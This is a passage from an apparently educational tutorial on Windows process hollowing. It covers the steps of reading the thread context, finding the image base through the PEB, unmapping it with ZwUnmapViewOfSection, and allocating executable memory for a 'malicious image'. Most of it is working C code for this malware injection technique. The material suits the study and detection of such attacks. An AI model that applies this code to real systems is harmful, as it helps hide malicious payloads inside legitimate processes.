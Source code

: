 At step three, the process must be “hollowed” by un-mapping memory. Before un-mapping can occur, we must identify the parameters of the API call. We need to identify the location of the process in memory and the entry point. The CPU registers `EAX` (entry point), and `EBX` (PEB location) contain the information we need to obtain; these can be found by using `GetThreadContext`. Once both registers are found, `ReadProcessMemory` is used to obtain the base address from the `EBX` with an offset (`0x8`), obtained from examining the PEB.

```
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);
```

After the base address is stored, we can begin un-mapping memory. We can use `ZwUnmapViewOfSection` imported from ntdll.dll to free memory from the target process.

```
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```

At step four, we must begin by allocating memory in the hollowed process. We can use `VirtualAlloc` similar to step two to allocate memory. This time we need to obtain the size of the image found in file headers. `e_lfanew` can identify the number of bytes from the DOS header to the PE header. Once at the PE header, we can obtain the `SizeOfImage` from the Optional header.

```
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	sizeOfMaliciousImage, // Byte size obtained from optional header
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```
